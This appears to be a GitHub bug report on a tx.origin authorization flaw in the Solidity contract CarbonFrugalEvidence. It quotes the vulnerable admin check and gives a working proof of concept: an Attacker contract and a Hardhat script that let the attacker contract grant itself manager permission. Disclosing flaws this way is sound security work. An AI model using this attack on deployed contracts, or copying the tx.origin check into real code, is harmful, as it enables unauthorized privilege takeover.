

## Problematic code design (tx.origin) that allows attacker to pass the authority check

**Describie the bug**

The contract *CarbonFrugalEvidence* contains a bug that can make the attacker pass the authority check because of `tx.origin`. For instance, the modifier onlyAdmin check whether the `tx.origin` is the admin of the contract. In function *changePermitManager* utilizes the modifier to check the authority and let the *userAddress* to be permitted with returned value 1.

```solidity
modifier onlyAdmin() {
        require(
            tx.origin == _admin,
            "AuthService onlyAdmin：你不是超级管理员，无法进行对应操作！"
        );
        _;
    }
//修改授权，address userAddress 用户地址 .bool permitState 授权状态 true 开启，false关闭
    function changePermitManager(address userAddress, bool permitState)
        public
        onlyAdmin
        returns (uint256)
    {   // for test log
        console.log("tx.orgin: ",tx.origin);
        require(
            userAddress != address(0),
            "AuthService changePermitManager: 账户为空地址！"
        );
        uint256 state = 0;
        string memory stateMessage = "";
        permitManagerMapping[userAddress] = permitState;
        if (permitManagerMapping[userAddress] == permitState) {
            state = 1;
            stateMessage = "AuthService addAuthUser:授权状态修改成功!";
        } else {
            stateMessage = "AuthService addAuthUser:授权状态修改失败!";
        }
        emit SetPermitUserEvent(
            tx.origin,
            userAddress,
            state,
            permitState,
            now,
            stateMessage
        );
        return state;
    }
}
```


**To Reproduce**

Steps to reproduce the behavior:

1. prepare harhat testing environment

2. copy problematic *CarbonFrugalEvidence* with inserted log output statement (lines 14 shown above) which are used in test to a created directory `contracts`

3. create an attacker contract instance that can utilize the vulnerability `Attacker`

   ```solidity
   pragma solidity ^0.4.24;
   import "hardhat/console.sol";
   import "./CarbonFrugalEvidence.sol";
   
   interface IEvidence {
       function changePermitManager(address userAddress, bool permitState)
           public
           returns (uint256);
   }
   
   contract Attacker {
       address _evidence;
   
       constructor(address evidence) {
           _evidence = evidence;
       }
   
       function callback() public returns (uint256) {
           console.log("msg.sender of Attacker: ", msg.sender);
           uint256 state = IEvidence(_evidence).changePermitManager(
               address(this),
               true
           );
           // test the success of attack using tx.origin
           // state equals to 1 if got attacked
           console.log("state: %s", state);
           if (state == 1) {
               console.log("successful attack.");
           } else {
               console.log("fail to attack.");
           }
           return state;
       }
   }
   
   ```

   In this contract, if the admin of contract `CarbonFrugalEvidence` calls the *callback()*, then the attacker contract can invoke the *changePermitManager* to pass the authority check (cause the `tx.origin` is still the admin), thus making itself permitted.

4. use the followed test deployment js to execute `npx hardhat run scripts/deploy.js`

   ```js
   async function main() {
     const [deployer] = await ethers.getSigners();
   
     console.log("Deploying contracts with the account:", deployer.address);
   
     const victim = await ethers.getContractFactory("CarbonFrugalEvidence");
     const token = await victim.deploy();
   
     console.log("Victim CarbonFrugalEvidence address:", token.address);
   
     const attacker = await ethers.getContractFactory("Attacker");
     const att = await attacker.deploy(token.address);
     console.log("Attacker address:", att.address);
   
     const res = await att.callback();
     console.log(res);
   }
   
   main()
     .then(() => process.exit(0))
     .catch((error) => {
       console.error(error);
       process.exit(1);
     });
   ```

   

**Expected behavior**

The test results will show the return value ` state` is 1, which means the attacker successfully pass the authority check with the use of `tx.origin`.


**Screenshots**

